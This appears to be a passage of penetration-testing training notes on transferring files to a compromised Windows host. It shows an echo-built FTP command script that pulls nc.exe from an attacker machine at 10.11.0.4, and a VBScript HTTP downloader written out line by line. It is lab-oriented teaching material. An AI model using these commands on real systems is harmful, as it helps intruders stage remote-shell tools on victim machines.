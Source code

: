 Windows operating systems ship with a default FTP client that can be used for file transfers. 
- The FTP client is an interactive program that requires input to complete.
- The ftp **`-s`** option accepts a text-based command list that effectively makes the client non-interactive.

On our attacking machine, we will set up an FTP server, and we will initiate a download request for the Netcat binary from the compromised Windows host.

1. First, we will place a copy of `nc.exe` in our `/ftphome` directory:
    ```sh
    kali@kali:~$ sudo cp /usr/share/windows-resources/binaries/nc.exe /ftphome/
    ```
2. build a text file of FTP commands we wish to execute, using the `echo` command.
    ```sh
    C:\Users\offsec>echo open 10.11.0.4 21> ftp.txt
    C:\Users\offsec>echo USER offsec>> ftp.txt
    C:\Users\offsec>echo lab>> ftp.txt
    C:\Users\offsec>echo bin >> ftp.txt
    C:\Users\offsec>echo GET nc.exe >> ftp.txt
    C:\Users\offsec>echo bye >> ftp.txt
    ```
    - The command file begins with the open command, which initiates an FTP connection to the specified IP address. 
    - Authenticate as offsec with the `USER` command and supply the password, lab. 
    - Rrequest a binary file transfer with `bin` and issue the `GET` request for `nc.exe`. 
    - Close the connection with the `bye` command.
3. Using FTP non-interactively
    ```sh
    C:\Users\offsec> ftp -v -n -s:ftp.txt
    ```
### Windows Downloads Using Scripting Languages
We can leverage scripting engines such as VBScript (in Windows XP, 2003) and PowerShell (in Windows 7, 2008, and above) to download files to our victim machine. 

#### VBScript
Creating a VBScript HTTP downloader script
```sh
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo  Err.Clear >> wget.vbs
echo  Set http = Nothing >> wget.vbs
echo  Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo  If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo  If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo  If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo  http.Open "GET", strURL, False >> wget.vbs
echo  http.Send >> wget.vbs
echo  varByteArray = http.ResponseBody >> wget.vbs
echo  Set http = Nothing >> wget.vbs
echo  Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo  Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo  strData = "" >> wget.vbs
echo  strBuffer = "" >> wget.vbs
echo  For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo  ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo  Next >> wget.vbs
echo  ts.Close >> wget.vbs
```
We can run this (with `cscript`) to download files from our Kali machine: